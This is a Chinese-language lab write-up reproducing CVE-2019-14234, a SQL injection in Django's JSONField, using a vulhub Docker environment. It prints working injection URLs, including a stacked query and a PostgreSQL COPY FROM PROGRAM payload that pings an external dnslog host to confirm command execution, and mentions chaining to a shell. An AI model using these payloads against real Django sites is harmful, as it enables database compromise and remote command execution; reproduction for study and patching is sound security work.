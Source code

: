 ## CVE-2019-14234-Django-JSONField-SQL注入漏洞复现

标签： [漏洞复现](https://www.freesion.com/tag/漏洞复现/) [安全](https://www.freesion.com/tag/安全/)



# 0x01简介

Django是一款广为流行的开源web框架，由Python编写，许多网站和app都基于Django开发。

什么是JSONField，Django是一个大而全的Web框架，其支持很多数据库引擎，包括Postgresql、Mysql、Oracle、Sqlite3等，但与Django天生为一对儿的数据库莫过于Postgresql了，Django官方也建议配合Postgresql一起使用。

相比于Mysql，Postgresql支持的数据类型更加丰富，其对JSON格式数据的支持也让这个关系型数据库拥有了NoSQL的一些特点。

# 0x02漏洞简介

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是

```
WHERE (field->'[key_name]') ='value'
1
```

，因此可以进行SQL注入。
![1](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\1.jpg)

# 0x03影响版本

Django 主开发分支

Django 2.2.x < 2.2.4

Django 2.1.x < 2.1.11

Django 1.11.x < 1.11.23

# 0x04环境搭建

使用vulhub的docker环境搭建

vulhub下载地址：https://github.com/vulhub/vulhub

cd vulhub/django/CVE-2019-14234/
 docker-compose up -d
![2](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\2.png)

在浏览器访问http://ip:8000出现一下页面说明搭建成功
 ![3](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\3.JPEG)

# 0x05漏洞利用

通过对代码的分析，可以知道如果在你的Django中使用了JSONField并且查询的“键名”可控，就可以进行SQL注入

访问http://ip:8000/admin

输入用户名admin ，密码a123123123
![4](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\4.JPEG)

然后构造URL进行查询，payload：

http://ip:8000/admin/vuln/collection/?detail__a’b=123

![5](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\5.JPEG)

可以看到上图已经注入成功，并且可以看到构造的SQL语句，继续构造payload

```
http://ip:8000/admin/vuln/collection/?detail__title%27)%3d%271%27 or 1%3d1%2d%2d%20
1
```

由于or 1=1永为真，因此应该返回所有结果
![6](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\6.JPEG)

我们结合CVE-2019-9193我们尝试进行命令注入，构造url如下

```
http://192.168.10.195:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20
1
```

页面结果虽然报错，但是报错原因是no results to fetch，说明我们的语句已经执行

![7](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\7.JPEG)

使用dnslog检测是否可以执行命令

Dnslog网址：http://dnslog.cn/

Payload:

```
http://192.168.10.195:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'ping k1anij.dnslog.cn
'--%20
12
```

![8](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\8.JPEG)

成功检测到流量
![9](C:\Users\litbaizhang\Desktop\20201222\DJANGO2\DJANGO JSONFIELD SQL注入漏洞CVE-2019-14234\9.JPEG)

复现环境里的postgresql数据库docker没对外的端口映射，如果开了或者真实环境里，还可以结合msf通过CVE-2019-9193来getshell

# 0x06修复方式

更新到最新版本

